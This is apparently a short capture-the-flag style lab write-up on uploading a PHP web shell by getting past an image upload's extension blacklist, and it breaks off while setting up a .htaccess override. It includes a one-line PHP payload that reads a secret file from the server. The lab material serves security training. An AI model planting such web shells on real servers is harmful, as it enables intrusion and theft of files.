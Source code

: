 # Lab 04 - Web shell upload via extension blacklist bypass

## Vulnerable image upload function

1. Login and upload photo

2. View photo in new tab and look at GET request /files/avatars/images.jpeg

3. Create exploit.php file
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

4. Upload exploit.php instead of image

5. We need to create .htaccess file to change server configuration

-filename '.htaccess'
-Content-Type text/plain
-paylaod 